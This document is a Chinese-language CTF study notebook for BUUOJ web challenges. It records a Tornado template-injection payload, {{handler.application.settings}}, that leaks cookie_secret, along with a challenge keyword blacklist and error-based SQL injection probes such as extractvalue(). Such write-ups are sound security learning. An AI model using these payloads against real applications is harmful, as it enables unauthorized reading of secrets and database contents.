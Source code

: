 # web做题笔记

## buuoj



### easy_tornado

tornado是一个python写的web服务器

读取文件hint.txt:` md5(cookie_secret+md5(filename)) `

我们只要找到cookie_secret 就能读取任意文件

直接搜cve:找到一个\r\n分割请求的。。好像搞不到cookie_secret

找到`error?msg=Error`模板注入???

`{{1.}}`出现1.0  九成九模板注入，是什么模板?估计是自己的template

cookie_secret在tornado.web.Application中

黑名单:`",',(,),_,%,*,+,-,/,=,[,],\\,|`

{{ {1,2,3} }}

又是一次思维定势,老想着`__class__`啥的,后来被提醒一下，才意识到拿到cookie_secret并不需要命令执行,完全可以读类来获取信息

有两种比较好的办法找到cookie_secret在哪

- 写个脚本,把所有的类跑一边
- 读代码找到可疑的类

最后的payload:`{{handler.application.settings}}`

` 'cookie_secret': 'f680f1d4-b940-40c2-9f82-0b1832c64479' `





### 随便注

禁用`return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`

emmmm还有creater...

查询语句类似:`select xxx from xxx where xxx='1'`

测试清单:

```
1#  没有闭合单引号却有查询结果
1""""""" 可以查询到,猜测过滤了"

0' "o"r 1#
check the manual that corresponds to your MariaDB server version for the right syntax to use near 'r 1#'' at line 1</pre>
正常的报错
check the manual that corresponds to your MariaDB server version for the right syntax to use near '"o"r 1' at line 1
////单纯的想多了
extractvalue(1, concat(0x7e, (database()),0x7e));

```
